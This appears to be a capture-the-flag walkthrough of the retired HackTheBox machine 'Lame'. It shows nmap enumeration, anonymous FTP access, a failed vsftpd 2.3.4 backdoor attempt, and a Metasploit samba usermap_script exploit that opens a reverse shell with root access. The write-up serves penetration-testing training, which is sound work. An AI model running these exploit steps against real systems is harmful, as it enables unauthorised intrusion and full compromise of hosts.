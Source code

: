 ```yaml
---
title: Lame
date: 2023-01-19 03:33:00 -5000
categories: [OSCP Prep,HTB Linux Retired]
tags: [Network,Outdated Software, Security Tools, Remote Code Execution, SAMBA, Common Services]
---
```

# Lame
![Lame.png](/Assets/Pictures/Lame.png)
This is a retired box from [HackTheBox(HTB)](https://app.hackthebox.com/machines/Lame/). Being part of TJnull's list for OSCP Preparation. I had to tackle it.

# Intelligence Gathering

Let’s look at open ports

```bash
PORT    STATE SERVICE      REASON
21/tcp  open  ftp          syn-ack ttl 63
22/tcp  open  ssh          syn-ack ttl 63
139/tcp open  netbios-ssn  syn-ack ttl 63
445/tcp open  microsoft-ds syn-ack ttl 63
```

let’s get the service version and run some default nmap script of these open ports

```bash
PORT    STATE SERVICE     REASON         VERSION
21/tcp  open  ftp         syn-ack ttl 63 vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.8
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OS: Unix

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 59488/tcp): CLEAN (Timeout)
|   Check 2 (port 31947/tcp): CLEAN (Timeout)
|   Check 3 (port 15886/udp): CLEAN (Timeout)
|   Check 4 (port 40169/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)
```

# Enumeration

## FTP Enumeration

With FTP, there is a way to log in with default credentials `anonymous:anonymous`. As shown below, these creds gave us access to the victim’s FTP server.

```bash
➜  ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:retr0x01): anonymous
331 Please specify the password.
Password: **anonumous(Not shown on the screen)**
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Although we logged in, we were not able to find anything on the FTP server.

Let’s find the vulnerability belonging to the version of the service we found earlier.  After some googling we found the exploit for this version of FTP.

```bash
➜  searchsploit vsftp
--------------------------------------------------------------------------------- ------------------------------
 Exploit Title                                                                    |  Path
--------------------------------------------------------------------------------- ------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption                    | linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (1)                    | windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (2)                    | windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                                                  | linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution                                         | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                            | unix/remote/17491.rb
vsftpd 3.0.3 - Remote Denial of Service                                           | multiple/remote/49719.py
--------------------------------------------------------------------------------- ------------------------------
```

We have two ways to exploit this vulnerability. Let’s get it in our host and exploit it

```bash
➜  searchsploit vsftp -m 49757
[!] Could not find EDB-ID #

  Exploit: vsftpd 2.3.4 - Backdoor Command Execution
      URL: https://www.exploit-db.com/exploits/49757
     Path: /snap/searchsploit/62/opt/exploitdb/exploits/unix/remote/49757.py
    Codes: CVE-2011-2523
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/Lame/Exploitation/vsftpd_2.3.4_Exploit/49757.py
```

The exploit did not seem to work manually. Let’s go with the automated way, using the metasploit framework (MSF)

```bash
#Firstly, we search for the exploit on msf
msf6 > search vsftp
#Secondly, we use the exploit
msf6 > use 0
#Third, we check the options needed to run the exploit
msf6 > show options
#Fourth, we set the needed arguments
msf6 > set rhosts 10.10.10.3
#Finally we run the exploit
msf6 > exploit
```

After waiting for some time, the exploit did not run successfully as shown here.

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

let’s carry on and try another service enumeration

## SMB Enumeration

SMB or Samba, is also known to be easy to enumerate. Let’s start our enumeration on this service.
First let’s see what kind of share we have on this SMB server using smbmap

```bash
➜  smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

As we can see using smbmap, we can check different shares and also we can know the permission we have for all the shares. From what we can see here, we have read and write access on the `/tmp` share. Let’s enumerate that share. using the regular anonymous method to  enumerate the Samba server did not get us anywhere. After some googling, we found [this](https://amolblog.com/139-tcp-open-netbios-ssn-samba-smbd-3-x-4-x/) article and it helped us exploit the vulnerability of these SMB versions.

# User & Privesc

This was lame for a reason, because this vulnerability gives root access right off the bat. So no need to gain user first and try to escalate privileges. Just getting in with super user privileges.

```bash
#Firstly, we search for the exploit on msf
msf6 > search samba 3
#Secondly, we use the exploit
msf6 > use exploit/multi/samba/usermap_script
#Third, we check the options needed to run the exploit
msf6 > show options
#Fourth, we set the remote host
msf6 > set rhosts 10.10.10.3
#Fifth, we set our local interface or address
msf6 > set lhost tun0
#Finally, run the exploit
msf6 > exploit
#Results
msf6 exploit(multi/samba/usermap_script) > exploit 

[*] Started reverse TCP handler on 10.10.16.8:4444 
[*] Command shell session 1 opened (10.10.16.8:4444 -> 10.10.10.3:55027) at 2023-01-19 03:17:00 -0600

whoami
root
pwd
/
```

The box is done, Since we have the higher privilege there is nothing else to do at this point expect navigate and get the differents flag. It was lame because of the rabbit hole and the exploitation. But a great box overall.

Thanks for reading me, enjoy !